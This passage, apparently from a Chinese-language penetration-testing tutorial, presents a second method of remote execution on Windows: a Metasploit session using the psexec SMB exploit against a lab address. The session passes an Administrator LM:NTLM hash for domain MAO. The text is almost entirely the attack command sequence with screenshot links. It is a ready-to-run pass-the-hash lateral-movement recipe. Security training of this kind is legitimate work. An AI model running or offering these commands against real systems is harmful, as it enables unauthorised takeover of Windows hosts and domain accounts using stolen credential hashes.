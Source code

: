 [![](assets/1706958938-ba15bedb78aea5a4afc7c4b336c2b765.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172305511-406542361.png)

#### 法二：msf 的 psexec

```plain
search psexec
use exploit/windows/smb/psexec
show option
set rhosts 192.168.126.10
set SMBDomain MAO
set SMBUSER Administrator
set SMBpass 6f08d7b306b1dad4b75e0c8d76954a50:570a9a65db8fba761c1008a51d4c95ab   # LM:NTLM
exploit
```

[![](assets/1706958938-c415c0869bc50ada03af1dddd070746a.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172307165-1816188126.png)
